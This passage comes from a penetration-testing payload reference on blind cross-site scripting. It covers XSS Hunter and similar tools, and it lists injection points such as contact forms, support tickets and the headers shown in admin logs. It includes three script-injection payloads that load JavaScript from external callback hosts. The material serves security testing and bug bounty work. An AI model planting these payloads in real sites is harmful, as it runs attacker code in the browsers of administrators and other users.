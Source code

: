 ### XSS Hunter

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-hunter)

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

XSS Hunter is deprecated, it was available atÂ [https://xsshunter.com/app](https://xsshunter.com/app).

You can set up an alternative version

- Self-hosted version fromÂ [mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)
- Hosted onÂ [xsshunter.trufflesecurity.com](https://xsshunter.trufflesecurity.com/)

```xml
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```

### Other Blind XSS tools

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#other-blind-xss-tools)

- [Netflix-Skunkworks/sleepy-puppy](https://github.com/Netflix-Skunkworks/sleepy-puppy)Â - Sleepy Puppy XSS Payload Management Framework
- [LewisArdern/bXSS](https://github.com/LewisArdern/bXSS)Â - bXSS is a utility which can be used by bug hunters and organizations to identify Blind Cross-Site Scripting.
- [ssl/ezXSS](https://github.com/ssl/ezXSS)Â - ezXSS is an easy way for penetration testers and bug bounty hunters to test (blind) Cross Site Scripting.

### Blind XSS endpoint

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#blind-xss-endpoint)

- Contact forms
- Ticket support
- Referer Header
    - Custom Site Analytics
    - Administrative Panel logs
- User Agent
    - Custom Site Analytics
    - Administrative Panel logs
- Comment Box
    - Administrative Panel

### Tips

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#tips)
